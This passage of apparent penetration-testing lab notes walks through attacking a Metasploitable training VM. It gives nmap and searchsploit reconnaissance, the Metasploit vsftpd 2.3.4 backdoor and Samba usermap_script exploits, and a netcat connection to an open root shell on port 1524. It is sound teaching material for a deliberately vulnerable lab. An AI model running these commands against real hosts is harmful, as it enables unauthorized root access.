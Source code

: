 	$ exploit - when all the parameters are set, will initiate the attack


## Hacking FTP (metasploitable)

	$ sudo nmap -sV 172.16.116.132

	$ searchsploit vsftp 2.3.4 

	$ msfconsole

	$ search vsftpd - copy the path

	$ use exploit/unix/ftp/vsftpd_234_backdoor

	$ show info

	$ show options

	$ set RHOSTS 172.16.116.132

	$ show payloads

	$ show targets

	$ exploit - hacked


## Misconfigurations (metasploitable)

Port 1524 - metasploitable root sheel - using netcat

	$ nc 172.16.116.132 1524 - hacked


## Information disclosure TELNET (metasploitable)

	$ telnet 172.16.116.132 - for banner grabbing and other information

	$ sudo su - msfadmin for root account


### Samba exploitation (metasploitable)

Ports 139, 445

	$ searchsploit samba

	$ search samba - to search for a SMB scanner (aux)

	$ use auxiliary/scanner/smb/smb_version

	$ options

	$ set RHOSTS 172.16.116.132

	$ exploit - Unix (Samba 3.0.20-Debian)

	$ searchsploit Samba 3.0.20

	$ use exploit/multi/samba/usermap_script - use open 4444 on the attacking machine
